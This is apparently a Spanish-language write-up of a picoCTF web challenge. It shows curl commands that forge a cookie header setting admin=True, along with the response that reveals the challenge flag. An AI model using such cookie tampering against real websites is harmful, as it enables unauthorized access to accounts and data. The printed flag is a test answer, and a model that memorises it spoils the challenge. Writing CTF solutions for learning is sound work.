 
## DESCRIPTION

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

## HINT

Hmm it doesn't seem to check anyone's password, except for Joe's?

## SOLUTION

Pide el navegador y responde el servidor. Para pedir existen diferentes métodos como POST y GET, son métodos de petición. 


Nos logueamos con usuario cualquiera, copiamos el link y lo ponemos en la consola. 

````

EduardoSanchez-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookies: username=juan;  password=juan; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:--     0^C
EduardoSanchez-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=juan;  password=juan; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   4674      0 --:--:-- --:--:-- --:--:--  4685
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
```


